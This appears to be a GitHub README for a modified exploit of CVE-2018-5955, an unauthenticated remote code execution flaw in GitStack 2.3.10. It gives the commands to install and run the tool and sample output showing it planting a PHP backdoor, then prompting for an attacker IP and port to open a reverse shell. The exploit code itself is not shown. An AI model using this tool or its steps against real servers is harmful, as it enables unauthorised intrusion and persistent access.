 # CVE-2018-5955
An exploit for CVE-2018-5955 GitStack 2.3.10 Unauthenticated RCE

Exploit: GitStack 2.3.10 Unauthenticated Remote Code Execution

Date: 18.01.2018

Software Link: https://gitstack.com/

Exploit Author: Kacper Szurek

Original Exploit: https://www.exploit-db.com/exploits/43777

Website: https://security.szurek.pl/

Category: remote

CVE: CVE-2018-5955

# Exploit Modified by MikeTheHash

 Date: 23.06.2023
 
 New features: Interactive RCE, OS Detect, Reverse Shell function, adapted from python2 to python3
 
CVE: CVE-2018-5955

Category: remote

## How to use
Install requirements:

    pip install colorama

Then, you can run it with:

    python3 exploit.py

## Functions
  - OS Detection
  - Reverse shell

  #### OS Detection: 
  The OS will be detected after you have exploited the CVE, in fact there will be this line of output: "[*] OS: $operatingsystem" (Dimostration below)
  
    [+] Get user list
    [+] Found user twreath
    [+] Web repository already enabled
    [+] Get repositories list
    [+] Found repository Website
    [+] Add user to repository
    [+] Disable access for anyone
    [+] Create backdoor in PHP
    [*] Type 'shell' to get a reverse shell
    [*] OS : Windows <----

  You can also type "os" to find out what type of Operating system is
  
  #### Reverse shell
  To get an actual reverse shell on the target you can type "shell" and then type your IP and your listen port like this:
  
    RCE > shell
    [?] Please enter the IP address for the shell: YOUR IP HERE
    [?] Please enter the port number for the shell: YOUR LISTEN PORT HERE

# Happy hacking!

